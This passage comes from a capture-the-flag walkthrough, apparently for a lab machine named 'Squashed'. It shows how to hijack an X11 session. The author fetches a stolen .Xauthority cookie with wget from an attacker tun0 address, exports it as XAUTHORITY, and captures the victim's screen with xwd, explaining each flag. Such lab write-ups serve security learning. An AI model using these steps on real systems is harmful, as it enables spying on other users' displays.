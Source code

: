Command : `wget http://<tun0-IP-ADDRESS>:8000/<FILENAME>`

![Untitled 32.png](Squashed/assets/Untitled%2032.png)

  

Now we have downloaded the `.Xauthority` file to the `/home/alex` directory. Now we have to set this cookie. To set the cookie we have to have to point the downloaded `.Xauthority` file to the `XAUTHORITY`environment variable. To do that use the following command :

`export XAUTHORITY=<LOCATION-TO-THE-FILE>`

![Untitled 33.png](Squashed/assets/Untitled%2033.png)

Now we have set the cookie successfully. Our next step is to take a screenshot of the display.

  

To take screenshot we can use the following command :

![Untitled 34.png](Squashed/assets/Untitled%2034.png)

Reference : [https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)

In our case the command will be:

`xwd -root -screen -silent -display <DISPLAY-ID> > <OUTPUT-FILE>`

Details of the flags used :

`-root` : selects the root window

`-screen` : send GetImage request to root window

`-silent` : operate silently

`-display` : specify the display
